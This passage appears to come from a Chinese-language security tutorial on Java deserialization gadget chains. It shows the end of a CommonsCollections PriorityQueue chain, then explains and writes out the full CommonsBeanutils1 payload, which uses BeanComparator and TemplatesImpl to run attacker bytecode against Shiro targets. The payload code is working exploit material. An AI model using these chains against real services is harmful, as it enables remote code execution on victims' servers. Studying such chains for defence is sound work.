 ```java
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator(transformer);

        PriorityQueue priorityQueue = new PriorityQueue(2, comparator);
        priorityQueue.add(templatesImpl);
        priorityQueue.add(templatesImpl);

        Reflection.setFieldValue(transformer, "iMethodName", "newTransformer");
        Serialization.test(priorityQueue);
    }
}
```

## CommonsBeanutils1 利用链

上面 cc 链利用的前提是得存在 commons-collections, 但实际场景中目标可能只有 shiro 相关的依赖

因为 shiro 自带 commons-beanutils, 所以就有了 CommonsBeanutils1 利用链, 它解决了无 commons-collections 情况下 shiro 反序列化的利用

漏洞起源于 PropertyUtils, 其 getProperty 方法能够调用任意类的 getter

```java
PropertyUtils.getProperty(person, "name"); // person.getName();
```

`org.apache.commons.beanutils.BeanComparator` 的 compare 方法会通过 getProperty 分别调用两个对象的 getter

![image-20221218222058565](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182220665.png)

结合 PriorityQueue 能够传入自定义 Comparator 的特性, 构造 payload 如下

```java
package com.example;

import com.example.CommonsCollections.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.util.PriorityQueue;

public class CommonsBeanutils1 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add(1);
        priorityQueue.add(1);

        beanComparator.setProperty("outputProperties");
        Reflection.setFieldValue(priorityQueue, "queue", new Object[]{templatesImpl, templatesImpl});
        Serialization.test(priorityQueue);
    }
```